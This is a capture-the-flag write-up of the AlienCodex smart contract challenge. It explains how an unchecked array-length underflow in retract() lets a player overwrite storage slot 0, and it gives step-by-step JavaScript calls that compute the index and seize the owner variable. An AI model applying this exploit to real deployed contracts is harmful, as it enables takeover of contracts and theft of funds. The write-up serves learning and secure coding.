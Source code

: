 # Introduction 

The *AlienCodex* contract is a challenge in Capture The Flag (CTF), requiring players to take ownership of the contract. This contract contains a critical vulnerability related to dynamic array handling and integer arithmetic, allowing an attacker to overwrite any storage slot in the contract, including the `owner` variable.

## Target
Change the address stored in the `owner` variable to the attacker's address (player).

## Context

The *AlienCodex* contract has the following key components:

- An `owner` variable (type `address`) that stores the owner's address.
- A `contact` variable (type `bool`) to mark the contact status.
- Most importantly, a dynamic array `codex` (type `bytes32[]`).

The `record`, `retract`, and `revise` functions all have a `contacted` modifier, requiring the `contact` variable to be `true` before they can be called.

---

## Vulnerability

The main vulnerability lies in the `retract()` function. This function decreases the length of the `codex` array by 1. However, it does not check if the length is already 0 before performing the subtraction.

### Solidity Code (Assumed)

```solidity
function retract() contacted public {
    codex.length--; // VULNERABILITY: No underflow check if length is 0
}
```

### Exploitation Steps:

1. **Set the `contact` state:**
   Call the `makeContact()` function to set the `contact` variable to `true`. This is necessary to bypass the `contacted` modifier in subsequent functions.

   ```javascript
   // Call makeContact()
   await contract.makeContact();
   // Check contact state (optional)
   await contract.contact(); // true
   ```

2. **Trigger the Underflow Vulnerability:**
   Call the `retract()` function. Since `codex.length` is initially 0, this operation will cause an underflow, setting `codex.length` to `2**256 - 1`.

   ```javascript
   // Call retract() to trigger underflow
   await contract.retract();
   ```

   Now, the contract believes the `codex` array can access nearly the entire 256-bit storage space.

3. **Locate the `owner` storage slot and calculate the index `i`:**

   In the Ethereum Virtual Machine (EVM), state variables are stored sequentially in 32-byte "slots." Smaller variables are packed into the same slot if possible.

   - The `owner` (address, 20 bytes) and `contact` (bool, 1 byte) variables are packed together in slot 0.
   - The length of the dynamic array `codex` is stored in slot 1.
   - The actual data of the `codex` array starts at a storage location calculated as `keccak256(slot_of_length)`. Let this starting position be `p`.

   ```javascript
   // Calculate the starting position of the codex array (p)
   p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]));
   ```

   To overwrite slot 0, we need to find an index `i` such that `p + i ≡ 0 (mod 2**256)`.

   ```javascript
   // Calculate the index i corresponding to slot 0
   i = BigInt(2 ** 256) - BigInt(p);
   ```

4. **Prepare the Overwrite Data (`content`):**

   Slot 0 contains `contact` (1 byte) and `owner` (20 bytes), with `owner` occupying the lower 20 bytes. To overwrite the `owner`, we need a `bytes32` value where the last 20 bytes are the attacker's address.

   ```javascript
   // Assume the attacker's address is defined as:
   // player = '0xcAC6377d429bAfA67f22fFd80447Af93E420f7Ec';

   // Create the payload: pad the player's address to 32 bytes
   content = '0x' + '0'.repeat(24) + player.slice(2);
   ```

5. **Perform the Overwrite:**
   Call the `revise(i, content)` function to write the `content` value to `codex[i]`. Since `i` points to slot 0, this will overwrite the `owner` variable.

   ```javascript
   // Call revise to write content to codex[i] (slot 0)
   await contract.revise(i, content);
   ```

6. **Verify Ownership:**
   Check the value of the `owner` variable. It should now be the attacker's address.

   ```javascript
   // Verify the new owner
   await contract.owner(); // '0xcAC6377d429bAfA67f22fFd80447Af93E420f7Ec'
   (await contract.owner()) === player; // true
   ```
## Conclusion

By exploiting the underflow vulnerability in the `retract()` function and leveraging the EVM's storage layout, we successfully overwrote the `owner` variable with the attacker's address. This demonstrates the importance of proper input validation and boundary checks in smart contract development to prevent such critical vulnerabilities.